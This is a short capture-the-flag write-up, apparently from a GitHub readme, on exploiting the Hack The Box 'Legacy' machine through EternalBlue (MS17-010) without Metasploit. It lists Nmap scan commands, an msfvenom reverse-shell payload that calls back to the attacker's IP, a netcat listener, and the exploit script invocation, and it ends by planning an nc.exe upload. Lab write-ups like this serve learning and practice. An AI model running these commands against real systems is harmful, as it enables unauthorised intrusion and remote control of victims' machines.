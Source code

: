 Legacy without Metasploit:

![Legacy](https://user-images.githubusercontent.com/55708909/91388528-2e9b1100-e855-11ea-9e19-33536c5bab8e.png)

Starting with Nmap Scan :
Nmap -sC -sV -T4 -A -O -oA Legacy -p- 10.10.10.4

![Legacy_nmap](https://user-images.githubusercontent.com/55708909/91389091-3f985200-e856-11ea-84e5-cd4c6331d2bc.png)
 As you can see that there are two ports open :
 1-Port 139
 2-Port 445

Therefore we will enumerate these ports.


I tried using basic tools but nothing seems to work so i run a vulnerability scan using nmap

![Legacy_vuln](https://user-images.githubusercontent.com/55708909/91391388-46739480-e857-11ea-95d0-1d3943d45251.png)

Nmap found us two vulnerability which can be exploited. 

1-MS08-067


2-MS17-010 (Eternal Blue)

I will be exploiting eternal blue using custom exploits from this git repo 

git clone https://github.com/helviojunior/MS17-010.git

cd MS17-010

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe

open a netcat session on port 4444

Run these command : python send_and_execute.py 10.10.10.4 shell.exe and you will get a reverse shell on port 4444

![Legacy_shell](https://user-images.githubusercontent.com/55708909/91396814-f39adc80-e858-11ea-8a21-c25fa68f1066.png)


Since it does not have whoami features therefore we will upload nc.exe from our machine to target machine and get it executed.









